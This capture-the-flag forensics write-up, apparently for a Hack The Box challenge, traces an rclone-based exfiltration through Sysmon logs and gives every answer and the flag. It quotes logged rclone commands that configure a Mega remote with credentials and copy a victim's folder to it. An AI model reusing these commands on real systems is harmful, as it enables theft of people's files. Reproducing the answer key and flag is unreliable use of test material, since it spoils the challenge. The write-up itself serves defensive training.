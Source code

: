 # Packet Cyclone

Category: Forensics
Difficulty: easy
Points: 425

************Category************: Crypto

****************Points:**************** 425

************************Difficulty:************************ easy

## Description

Pandora's friend and partner, Wade, is the one that leads the investigation into the relic's location. Recently, he noticed some weird traffic coming from his host. That led him to believe that his host was compromised. After a quick investigation, his fear was confirmed. Pandora tries now to see if the attacker caused the suspicious traffic during the exfiltration phase. Pandora believes that the malicious actor used rclone to exfiltrate Wade's research to the cloud. Using the tool called "chainsaw" and the sigma rules provided, can you detect the usage of rclone from the event logs produced by Sysmon? To get the flag, you need to start and connect to the docker service and answer all the questions correctly.

## Walkthrough

### File Analysis

The zip file contains the contents of Windows\System32\winevt\Logs directory, and a folder of sigma_rules. My favourite way to do this, is to use this [tool](https://github.com/Velocidex/evtx). I run it on all files in the Logs directory, which makes it easier to look for stuff.

```python
mkdir output
find 'Logs' -name "*.evtx" -size +69k -print0 | while read -d $'\0' file
do dumpevtx parse "${file}" --output="${file}.txt" 2>/dev/null
   mv "${file}.txt" output/
done
```

The description specifically mentions event logs related to rclone, and we need to connect to the docker service in order to get the flag. So, in another shell bash:

```python
nc 178.62.64.13 31177
```

### 1. What is the email of the attacker used for the exfiltration process? (for example: name@email.com)

To find that, we can use grep and search for email values in the ********Sysmon******** event log:

```python
cat 'Microsoft-Windows-Sysmon%4Operational.evtx.txt' | grep -F '@'
#returns "CommandLine": "\"C:\\Users\\wade\\AppData\\Local\\Temp\\rclone-v1.61.1-windows-amd64\\rclone.exe\" config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI",
```

****************Answer:**************** majmeret@protonmail.com

### 2. What is the password of the attacker used for the exfiltration process?

In the same output as above, we see that the pass is **FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI**

****************Answer:**************** FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI

### 3. What is the Cloud storage provider used by the attacker?

Still in the same output as question 1, the commandline shows that rclone is creating remote **mega** user. 

****************Answer:**************** Mega

### 4. What is the ID of the process used by the attackers to configure their tool?

To find the PID, we just need to look further up that specific command:

```python
cat 'Microsoft-Windows-Sysmon%4Operational.evtx.txt' | grep -F '@' -B 50 -A 50

```

```python
"EventData": {
   "RuleName": "-",
   "UtcTime": "2023-02-24 15:35:07.336",
   "ProcessGuid": "10DA3E43-D92B-63F8-B100-000000000900",
   "ProcessId": 3820,
   "Image": "C:\\Users\\wade\\AppData\\Local\\Temp\\rclone-v1.61.1-windows-amd64\\rclone.exe",
   "FileVersion": "1.61.1",
   "Description": "Rsync for cloud storage",
   "Product": "Rclone",
   "Company": "https://rclone.org",
   "OriginalFileName": "rclone.exe",
"CommandLine": "\"C:\\Users\\wade\\AppData\\Local\\Temp\\rclone-v1.61.1-windows-amd64\\rclone.exe\" config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI",
   "CurrentDirectory": "C:\\Users\\wade\\AppData\\Local\\Temp\\rclone-v1.61.1-windows-amd64\\",
   "User": "DESKTOP-UTDHED2\\wade",
   "LogonGuid": "10DA3E43-D892-63F8-4B6D-030000000000",
   "LogonId": 224587,
   "TerminalSessionId": 1,
   "IntegrityLevel": "Medium",
   "Hashes": "SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961",
   "ParentProcessGuid": "10DA3E43-D8D2-63F8-9B00-000000000900",
   "ParentProcessId": 5888,
   "ParentImage": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
   "ParentCommandLine": "\"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\" ",
   "ParentUser": "DESKTOP-UTDHED2\\wade"
  },
```

The PID is **3820**. 

****************Answer:**************** 3820

### 5. What is the name of the folder the attacker exfiltrated; provide the full path.

Easy, just need to grep for ********************rclone.exe********************, which will show all command line parameters invoked:

```python
grep -F 'rclone.exe' * 
#"CommandLine": "\"C:\\Users\\wade\\AppData\\Local\\Temp\\rclone-v1.61.1-windows-amd64\\rclone.exe\" copy C:\\Users\\Wade\\Desktop\\Relic_location\\ remote:exfiltration -v"
```

The exfiltrated directory, is the one being copied, which is C:\Users\Wade\Desktop\Relic_location 

****************Answer:****************  C:\Users\Wade\Desktop\Relic_location 

### 6. What is the name of the folder the attacker exfiltrated the files to?

In the output above, we see that the destination is remote:exfiltration, so the name of the folder is exfiltration.

****************Answer:****************  exfiltration

************Flag:************ HTB{3v3n_3xtr4t3rr3str14l_B31nGs_us3_Rcl0n3_n0w4d4ys}